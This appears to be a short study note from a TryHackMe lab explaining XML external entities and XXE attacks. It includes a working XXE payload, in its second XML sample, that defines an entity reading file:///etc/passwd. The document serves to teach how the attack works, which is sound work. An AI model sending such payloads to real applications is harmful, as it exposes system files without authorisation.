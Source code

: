![](assets/Pasted%20image%2020241206120649.png)
# [Introduction]()

XML is a commonly used method to transport and store data in a structured format that humans and machines can easily understand. Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files.

For example, an external entity references data from an external file or resource. In the following code, the entity `&ext;` could refer to an external file located at "`http://localhost/robots.txt`", which would be loaded into the XML, if allowed by the system:

```xml
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://localhost/robots.txt">
]>
<people>
   <name>hexadivine</name>
   <address>&ext;</address>
   <email>hexadivne@gmail.com</email>
   <phone>111000</phone>
</people>
```

XXE is an attack that takes advantage of **how** **XML parsers handle external entities**. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitisation is not in place, the attacker may point the entity to any malicious source/code causing the undesired behaviour of the web app.

```xml
<!DOCTYPE people[
   <!ENTITY pwd SYSTEM "file:///etc/passwd">
]>
<people>
   <name>hexadivine</name>
   <address>&pwd;</address>
   <email>hexadivne@gmail.com</email>
   <phone>111000</phone>
</people>
```

Below is the POC on THM machine.

![](assets/Pasted%20image%2020241206121744.png)
